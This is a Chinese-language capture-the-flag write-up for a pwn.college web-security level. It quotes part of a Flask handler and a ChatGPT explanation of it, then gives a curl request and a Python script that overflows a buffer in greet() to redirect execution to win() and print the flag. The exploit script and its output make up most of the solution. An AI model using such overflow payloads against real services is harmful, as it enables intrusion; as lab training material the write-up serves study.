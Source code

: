 ```
                os._exit(0)

            os.close(w)
            while True:
                data = os.read(r, 256)
                if not data:
                    break
                yield data
            os.wait()

        return stream_greet()

    return "Not Found\n", 404
```
很好，再次求助chatgpt：
> 这段代码定义了一个名为 level15() 的函数，它似乎是一个 Flask 路由处理程序。这个函数的作用是：

> 如果 libgreet 不在全局变量中，则使用 GCC 编译器编译一个共享库，并将其加载到 libgreet 变量中。这个共享库包含一个名为 win() 的函数，它会读取 /flag 文件并将其内容输出为标准输出流；还包含一个名为 greet() 的函数，它会将一个字符串参数作为问候语输出到标准输出流。这个共享库还包含一个名为 win_address() 的函数，它会返回 win() 函数的地址。

> 如果请求的路径为 /win_address，则返回 win() 函数的地址。

> 如果请求的路径为 /greet，则从请求参数中获取一个名为 name 的字符串参数，并使用 greet() 函数向客户端发送一条问候语。为了避免缓冲区溢出等安全问题，它使用了 ctypes.create_string_buffer() 函数来创建一个名为 name_buffer 的缓冲区，并将其传递给 greet() 函数。为了将 greet() 函数的输出流与客户端的响应流相连接，它使用了 Unix 管道和子进程来实现流式输出。

> 如果请求的路径不是 /win_address 或 /greet，则返回一个 404 响应。

> 总体来说，这个函数似乎是一个非常危险的路由处理程序，因为它使用了动态编译和加载共享库的技术，并且使用了 Unix 管道和子进程来实现流式输出。这些技术都可能会导致安全漏洞，例如缓冲区溢出、代码注入、代码执行等问题。建议谨慎使用这种技术，并且在使用时应该加强安全性的措施。

其实这个是很简单的shellcode。
```
hacker@web-security-level-15:~$ curl challenge.localhost/win_address
0x7fa506d8f1c5
hacker@web-security-level-15:~$
```
首先，在源码里没有win函数的地址，因此我们需要curl一下，然后拿到这个地址
```
hacker@web-security-level-15:~$ curl challenge.localhost/win_address
0x7fa506d8f1c5
```
然后，写脚本，逐步增加a的数量，希望逐渐增加 name 参数的长度。当 name 参数的长度达到一定值时，就会覆盖 greet() 函数的返回地址，
```
import requests
for i in range (250,270):
    address = ("a"*i + "\xc5\xf1\xd8\x06\xa5\x7f\x00\x00")
    params = {"name": address.encode("utf-8")}

    r = requests.get("http://challenge.localhost/greet",params=params)
    if "win" in r.text:
        print(r.text)
```
拿到flag
```
hacker@web-security-level-15:~$ python test.py
Hello, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaÅñØ¥
You win! Here is your flag:
pwn.college{EHqxRFRVOPcCUXWv8Sf1Qk3NLxi.dFDM0MDL2QjMyMzW}


hacker@web-security-level-15:~$
```
事实上打印了一下i发现是257 ，也就是说win函数紧挨着greet函数，可能这是题目故意设置的吧hhh。


